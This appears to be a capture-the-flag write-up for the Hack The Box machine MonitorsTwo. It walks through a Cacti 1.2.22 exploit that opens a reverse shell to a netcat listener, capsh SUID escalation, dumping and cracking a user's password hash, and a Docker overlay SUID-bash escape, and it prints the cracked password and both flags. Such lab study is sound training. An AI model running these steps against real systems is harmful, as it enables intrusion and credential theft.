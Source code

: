 ```yaml
---
title: "MonitorsTwo from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# MonitorsTwo from HTB
`nmap`returned this:
```bash
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open     http            nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
```
access the site via `IP`and we find that it's `cacti 1.2.22`version which is exploitable. After searching i found: https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
```
1. rlwrap nc -nlvp 1234



2.python3 CVE-2022-46169-cacti-1.2.22-exploit.py -u http://10.10.11.211/ --LHOST=10.10.16.5 --LPORT=1234
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!



3.rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.211] 51012
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@50bca5e748b0:/var/www/html$
```
spawn `/bin/bash`
```
script /dev/null -c bash
```
There is an `.dockerenv`file in `/`that means we are in `docker container`. We proceed with our enumeration by searching for files with the `SUID` bit set.
```bash
find / -perm /4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```
`capsh`can be used to become the `root`:
```bash
capsh --gid=0 --uid=0 --
capsh --gid=0 --uid=0 --
root@50bca5e748b0:/var/www/html#
```
in `/`directory there is `entrypoint.sh`which i guess shouldn't be but i used it and got that there is an `mysql database`which can be accessed:
```bash
root@50bca5e748b0:/# cat ent
cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
```
Then i connected to `mysql`:
```bash
root@50bca5e748b0:/#  mysql --host=db --user=root --password=root cacti
show databases;
...........
MySQL [cacti]> use cacti;
use cacti;
Database changed
MySQL [cacti]> show tables;
show tables;
............
MySQL [cacti]> select * from user_auth;
select * from user_auth;
................
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |     0 | Marcus Brune   | marcus@monitorstwo.htb |
```
So there is an user named `marcus`and there is an hashed password. Crack it with `John the ripper`and get the password:
```bash
john -w=/usr/share/wordlists/rockyou.txt hash
........
.........
funkymonkey      (?)
```
Then connect to `ssh`:
```bash
ssh marcus@10.10.11.211
marcus@monitorstwo:~$ cat user.txt
31a9e1718c1fae3c62ed009bc408f4f4
```
***
User Flag is: 31a9e1718c1fae3c62ed009bc408f4f4
***
```bash
marcus@monitorstwo:~$ sudo -l
[sudo] password for marcus:
Sorry, user marcus may not run sudo on localhost.
```
That's bad.
```bash
marcus@monitorstwo:~$ cat /var/mail/marcus
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```
This is something we will need.
First two is useless for us in this moment.
We'll need third `CVE`:
```
docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```
This is exploitable.
We can employ `findmnt` to display the mounts connected to the system, including those used by Docker containers.
```
findmnt
TARGET                                SOURCE     FSTYPE     OPTIONS
├─/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4ZK5GJUT
├─/var/lib/docker/containers/e2378324fced58e8166b82ec842ae45961417b4195aade5113fdc9c6397edc69/mounts/shm
│                                     shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
├─/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
│                                     overlay    overlay    rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMX
└─/var/lib/docker/containers/50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e/mounts/shm
  shm        tmpfs      rw,nosuid,nodev,noexec,relatime,size=65536k
```
In `netcat`connection where we are `root`find which docker is used for `cacti`with `mount`and it is:
```
upperdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff,workdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/work,xino=off)
```
So we will have to go to `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged`So we will be at the same directory as we are in `netcat`.If you create file in that directory you will see it in other terminal too.
With root `in netcat`copy `/bin/bash`to `/`and make it executable by `user`to use it to become the root.
```bash
root@50bca5e748b0:/# cp /bin/bash /
cp /bin/bash /
root@50bca5e748b0:/# chmod u+s /bash
chmod u+s /bash # in netcat
```
Now in `ssh`:
```bash
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bash  -p
bash-5.1#
```
We are now `root`.
***
Root Flag is: d37df4d2b25c038065fc5602d0368d7b
****
![](/assets/images/Screenshot from 2024-08-12 18-46-04.png)
